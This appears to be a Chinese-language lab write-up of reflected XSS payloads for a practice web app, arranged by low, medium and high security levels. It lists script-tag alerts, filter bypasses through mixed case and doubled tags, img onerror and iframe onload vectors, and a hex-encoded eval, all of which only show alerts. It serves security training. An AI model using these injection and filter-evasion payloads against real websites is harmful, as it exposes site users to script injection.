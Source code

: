 # XSS (Reflected)

> ## low

最简单的xss

```javascript
<script>alert(/xss/)</script>
```

<br>

> ## medium

1.使用大小写绕过：

```js
<ScRipt>alert(/xss/);</ScRipt>
```



2.使用双写绕过：

```js
<scr<script>ipt>alert(/xss/);</script>
```



3.使用非 script 标签

img标签：

```
<img src=1 onerror=alert('xss')>

<img src="1" onerror=eval("\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29")></img>
```

iframe标签：

```
<iframe onload=alert(1)>
```

<br>

> ## high
>

使用非 script 标签注入

img标签：

```
<img src=1 onerror=alert('xss')>

<img src="1" onerror=eval("\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29")></img>
```

iframe标签：

```
<iframe onload=alert(1)>
```

<br>



更多方法待补充